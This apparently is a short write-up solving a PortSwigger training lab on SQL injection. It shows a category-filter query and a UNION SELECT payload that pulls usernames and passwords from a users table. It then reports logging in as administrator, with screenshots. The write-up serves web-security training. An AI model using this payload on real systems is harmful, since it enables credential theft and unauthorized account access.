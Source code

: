 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d38edb54-4244-4cf4-b65e-ce752765d519)

## Solution :

Query made--

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

Because both columns store text data, we can retrieve both the username and password from the users table without needing any additional concatenation method.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username,password FROM users --
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/faa57f51-ac75-491f-842a-fc1acdf5bd77)

Thus we got all the usernames & password stored in the database.
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/37a2f82c-1369-4282-82d3-e49376e051d1)

![image](https://user-images.githubusercontent.com/67383098/234061661-b0778724-17d3-4786-b67a-ad53930b2a46.png)
![image](https://user-images.githubusercontent.com/67383098/234061490-8a148bb3-9d40-4051-b378-6fdf807161e0.png)

Now we can login as administrator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/950d8e72-deb1-4600-8dc7-04f61f2bedab)
